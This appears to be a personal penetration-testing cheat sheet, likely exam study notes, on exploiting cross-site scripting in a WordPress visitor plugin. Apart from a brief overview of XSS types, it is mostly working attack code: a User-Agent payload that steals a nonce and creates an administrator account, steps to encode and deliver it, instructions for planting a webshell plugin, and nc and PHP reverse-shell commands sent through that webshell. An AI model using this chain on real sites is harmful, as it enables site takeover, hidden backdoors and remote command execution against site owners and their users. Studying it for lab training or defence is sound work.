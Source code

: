 # Cross Side Scripting

## Vulnerabilities

* Stored XSS: stored in DB; attack all users
* Reflected XSS: put script in crafted requests or links, attack a sinlge user
* DOM-based XSS: inject script into DOM and execute the exploit; Either stored or reflected

 With access to the DOM, you can redirect login forms, extract passwords, and steal session cookies.

 Look for input fields and try common characters `< > ' " { } ;`.

 URL encoding = % encoding or ascii e.g. %20, %21
 HTML encoding = special `<` or`>` char encoding e.g. `&lt;`,`&gt;`

## Basic Exploit

```html
User-Agent: <script>alert(42)</script>
```

Login to WP verify XSS

`http://target.wordpress.com/wp-login.php`

## Privilege Escalation by XSS on WP Instance

Source:

* Exploit `https://shift8web.ca/2018/01/craft-xss-payload-create-admin-user-in-wordpress-user/`
* JS Encoding `https://eve.gd/2007/05/23/string-fromcharcode-encoder/`
* URL Encoding `https://www.url-encode-decode.com/`

The script attacks the visitor plugin of WP. It exploit an XSS within the User-Agent header.The Code first requests a nonce using AJAX and then creates a new WP administrator "attacker" with "attackerpass". This payload has to be minified and encoded to be passed to the User-Agent header.

```js
// steal the nonce first
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
// then create a WP admin user
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```

First, the JavaScript Payload has to be minified into a oneliner and encoded. We can use `https://jscompress.com` or `https://javascript-minifier.com`.

Next, the JS Encoding function converts every char into UTF-16 integer using `charCodeAt` and concate it with a comma. e.g. 118,97,...

Alternatively we can use a handy online JS Encoding service `https://eve.gd/2007/05/23/string-fromcharcode-encoder/` that does the job. Or we can use an online URL encoding service `https://www.url-encode-decode.com/`.

```js
function encode_to_javascript(string) {
    var input = string
    var output = '';
    for(pos = 0; pos < input.length; pos++) {
        output += input.charCodeAt(pos);
        if(pos != (input.length - 1)) {
            output += ",";
        }
    }
    return output;
}
        
let encoded = encode_to_javascript('insert_minified_javascript_here')
console.log(encoded)
```

Finally, we can decode the integers on-demand in the script tag using `String.fromCharCode` and execute the script with `eval`.

```bash
curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(97,108,101,114,116,40,39,53,48,39,41,59))</script>" --proxy 127.0.0.1:8080
```

## Inplant Web shell on WP Instance

* Webshell WP-Plugin `https://github.com/p0dalirius/Wordpress-webshell-plugin/blob/master/README.md`
* Login as Admin
* Navigate to Plugins
* Select "Add New" or
* Select "Plugin Editor"
* Select "Activate" Webshell

Download Webshell from Github and install it. Go to Plugin Editor remove the illigal `die()` from the plugin and update it. Activate the plugin to deploy Webshell. Then run a Webshell test with the shell commend `id`.  

```bash
curl -X POST 'target.net/wordpress/wp-content/plugins/wp_webshell/wp_webshell.php' --data "action=exec&cmd=id"
```

## Upgrade to Reverse shell on WP Instance

* Get Reverse Shell e.g. nc + bash
* URL Encoding `https://www.url-encode-decode.com/`
* Start nc listener
* Run shell command to upgrade to reverse shell

NC Reverse Shell

```bash
nc -nvlp PORT
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc IP PORT > /tmp/f
```

PHP Reverse Shell

```php
php -r '$sock=fsockopen("IP",PORT);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

Spawn Reverse Shell

```bash
# NC
curl -X POST 'offsecwp/wordpress/wp-content/plugins/wp_webshell/wp_webshell.php' --data "action=exec&cmd=rm+%2Ftmp%2Ff%3Bmkfifo+%2Ftmp%2Ff%3Bcat+%2Ftmp%2Ff+%7C+%2Fbin%2Fsh+-i+2%3E%261+%7C+nc+IP+PORT+%3E+%2Ftmp%2Ff"
# PHP
curl -X POST 'offsecwp/wordpress/wp-content/plugins/wp_webshell/wp_webshell.php' --data "action=exec&cmd=php%20-r%20%27%24sock%3Dfsockopen(%22IP%22%2CPORT)%3B%24proc%3Dproc_open(%22%2Fbin%2Fsh%20-i%22%2C%20array(0%3D%3E%24sock%2C%201%3D%3E%24sock%2C%202%3D%3E%24sock)%2C%24pipes)%3B%27
```

Upgrade to Bash

```bash
listening on [any] PORT ...
connect to [IP] 
bash -i
```
